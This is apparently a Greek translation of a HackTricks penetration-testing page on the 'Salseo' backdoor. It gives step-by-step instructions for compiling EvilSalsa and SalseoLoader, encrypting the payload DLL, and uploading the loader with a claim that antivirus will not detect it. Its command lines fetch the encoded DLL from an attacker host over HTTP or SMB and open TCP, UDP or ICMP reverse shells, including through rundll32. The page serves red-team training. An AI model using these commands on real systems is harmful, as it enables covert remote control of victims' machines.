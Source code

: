# Salseo

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Συγκέντρωση των δυαδικών αρχείων

Κατεβάστε τον πηγαίο κώδικα από το github και συγκεντρώστε το **EvilSalsa** και το **SalseoLoader**. Θα χρειαστείτε εγκατεστημένο το **Visual Studio** για να συγκεντρώσετε τον κώδικα.

Συγκεντρώστε αυτά τα έργα για την αρχιτεκτονική του υπολογιστή Windows όπου θα τα χρησιμοποιήσετε (Αν τα Windows υποστηρίζουν x64, συγκεντρώστε τα για αυτές τις αρχιτεκτονικές).

Μπορείτε να **επιλέξετε την αρχιτεκτονική** μέσα στο Visual Studio στην **αριστερή καρτέλα "Build"** στην **"Platform Target".**

(\*\*Αν δεν μπορείτε να βρείτε αυτές τις επιλογές, πατήστε στην **"Project Tab"** και στη συνέχεια στην **"\<Project Name> Properties"**)

![](<../.gitbook/assets/image (132).png>)

Στη συνέχεια, κατασκευάστε και τα δύο έργα (Build -> Build Solution) (Μέσα στα logs θα εμφανιστεί η διαδρομή του εκτελέσιμου):

![](<../.gitbook/assets/image (1) (2) (1) (1) (1).png>)

## Προετοιμάστε το Backdoor

Πρώτα απ' όλα, θα χρειαστεί να κωδικοποιήσετε το **EvilSalsa.dll.** Για να το κάνετε αυτό, μπορείτε να χρησιμοποιήσετε το python script **encrypterassembly.py** ή μπορείτε να συγκεντρώσετε το έργο **EncrypterAssembly**:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Εντάξει, τώρα έχετε όλα όσα χρειάζεστε για να εκτελέσετε όλα τα πράγματα Salseo: το **encoded EvilDalsa.dll** και το **binary of SalseoLoader.**

**Ανεβάστε το SalseoLoader.exe binary στη μηχανή. Δεν θα πρέπει να ανιχνευτούν από κανένα AV...**

## **Εκτέλεση του backdoor**

### **Λήψη ενός TCP reverse shell (κατεβάζοντας το encoded dll μέσω HTTP)**

Θυμηθείτε να ξεκινήσετε ένα nc ως τον listener του reverse shell και έναν HTTP server για να σερβίρετε το encoded evilsalsa.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Λήψη ενός UDP reverse shell (κατέβασμα κωδικοποιημένου dll μέσω SMB)**

Θυμηθείτε να ξεκινήσετε ένα nc ως τον listener του reverse shell και έναν SMB server για να εξυπηρετήσει το κωδικοποιημένο evilsalsa (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **Απόκτηση ICMP reverse shell (κωδικοποιημένο dll ήδη μέσα στον θύμα)**

**Αυτή τη φορά χρειάζεστε ένα ειδικό εργαλείο στον πελάτη για να λάβετε το reverse shell. Κατεβάστε:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **Απενεργοποίηση Απαντήσεων ICMP:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Εκτέλεση του πελάτη:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### Μέσα στον θύμα, ας εκτελέσουμε το salseo πράγμα:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Συγκέντρωση του SalseoLoader ως DLL που εξάγει τη βασική λειτουργία

Ανοίξτε το έργο SalseoLoader χρησιμοποιώντας το Visual Studio.

### Προσθέστε πριν από τη βασική λειτουργία: \[DllExport]

![](<../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

### Εγκαταστήστε το DllExport για αυτό το έργο

#### **Εργαλεία** --> **Διαχειριστής Πακέτων NuGet** --> **Διαχείριση Πακέτων NuGet για Λύση...**

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

#### **Αναζητήστε το πακέτο DllExport (χρησιμοποιώντας την καρτέλα Αναζήτηση) και πατήστε Εγκατάσταση (και αποδεχτείτε το αναδυόμενο παράθυρο)**

![](<../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Στον φάκελο του έργου σας έχουν εμφανιστεί τα αρχεία: **DllExport.bat** και **DllExport\_Configure.bat**

### **Α**πεγκαταστήστε το DllExport

Πατήστε **Απεγκατάσταση** (ναι, είναι περίεργο αλλά εμπιστευτείτε με, είναι απαραίτητο)

![](<../.gitbook/assets/image (5) (1) (1) (2) (1).png>)

### **Έξοδος από το Visual Studio και εκτέλεση του DllExport\_configure**

Απλώς **έξοδος** από το Visual Studio

Στη συνέχεια, πηγαίνετε στον **φάκελο SalseoLoader** σας και **εκτελέστε το DllExport\_Configure.bat**

Επιλέξτε **x64** (αν πρόκειται να το χρησιμοποιήσετε μέσα σε ένα x64 box, αυτό ήταν η περίπτωση μου), επιλέξτε **System.Runtime.InteropServices** (μέσα στο **Namespace για DllExport**) και πατήστε **Εφαρμογή**

![](<../.gitbook/assets/image (7) (1) (1) (1) (1).png>)

### **Ανοίξτε ξανά το έργο με το Visual Studio**

**\[DllExport]** δεν θα πρέπει πλέον να επισημαίνεται ως σφάλμα

![](<../.gitbook/assets/image (8) (1).png>)

### Δημιουργία της λύσης

Επιλέξτε **Τύπος Έξοδου = Βιβλιοθήκη Κλάσης** (Έργο --> Ιδιότητες SalseoLoader --> Εφαρμογή --> Τύπος εξόδου = Βιβλιοθήκη Κλάσης)

![](<../.gitbook/assets/image (10) (1).png>)

Επιλέξτε **πλατφόρμα x64** (Έργο --> Ιδιότητες SalseoLoader --> Δημιουργία --> Στόχος πλατφόρμας = x64)

![](<../.gitbook/assets/image (9) (1) (1).png>)

Για να **δημιουργήσετε** τη λύση: Δημιουργία --> Δημιουργία Λύσης (Μέσα στην κονσόλα εξόδου θα εμφανιστεί η διαδρομή της νέας DLL)

### Δοκιμάστε το παραγόμενο Dll

Αντιγράψτε και επικολλήστε το Dll όπου θέλετε να το δοκιμάσετε.

Εκτελέστε:
```
rundll32.exe SalseoLoader.dll,main
```
Αν δεν εμφανιστεί σφάλμα, πιθανότατα έχετε ένα λειτουργικό DLL!!

## Αποκτήστε ένα shell χρησιμοποιώντας το DLL

Μην ξεχάσετε να χρησιμοποιήσετε έναν **HTTP** **server** και να ρυθμίσετε έναν **nc** **listener**

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
